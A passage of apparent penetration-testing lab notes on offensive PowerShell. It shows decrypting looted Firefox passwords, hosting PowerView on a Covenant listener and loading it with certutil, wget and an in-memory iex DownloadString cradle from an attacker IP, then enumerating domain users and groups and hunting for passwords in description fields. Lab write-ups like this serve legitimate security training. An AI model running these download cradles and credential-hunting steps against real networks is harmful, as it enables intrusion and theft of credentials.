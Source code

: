 - `cd /opt `
	- `git clone https://github.com/unode/firefox_decrypt; cd firefox_decrypt`
		- `./firefox_decrypt.py /root/.msf4/loot`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126134715.png)

### Offensive PowerShell Part 1 - Downloading Files with PowerShell
- Go to `Covenant`
	- `Listeners`
		- Click `HTTP Listener`
		- Go to `Hosted Files`
			- `Create`
				- Path: `/powerview.ps1`
				- Content: `locate file in file explorer`
- Go to Windows *Workstation-01* `powershell`
	- `cd Desktop`
		- Use `certutil`
			- `certutil.exe -urlcache -f http://192.168.3.28/powerview.ps1 powerview.ps1`
		- Use `wget`
			- `wget http://192.168.3.28/powerview.ps1 -OutFile powerview.ps1`
		- Use `iex`
			- This downloads to *memory* so there is tangible file
			- `iex(New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')`

### Offensive PowerShell Part 2 - Enumerating Users
- Download `powerview.ps1` into memory
	- `iex(New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')`
- Find domain information
	- `get-netuser`
- Query only the users
	- `get-netuser | select cn`
- Query `samaccountname` or actual **login**
	- `get-netuser | select -ExpandProperty samaccountname`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126181439.png)
- Sometimes people leave **passwords** in the *description* fields
	- `find-userfield -SearchField description "password"`
	- `find-userfield -SearchField description "pass"`
	- `find-userfield -SearchField description "admin"`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126181721.png)

### Offensive PowerShell Part 3 - Enumerating Groups
- Download `powerview.ps1` into memory
	- `iex(New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')`
-  Find domain groups
	- `get-netgroup`
- Search by *user*
	- `get-netgroup -UserName "s.chisholm"`
- Group specific information
	- This will show you who the members of each group are
	- `get-netgroup -GroupName "it admins" -FullData`
	- `get-netgroup -GroupName "senior management" -FullData`
	- `get-netgroup -GroupName "domain admins" -FullData` **important to note**
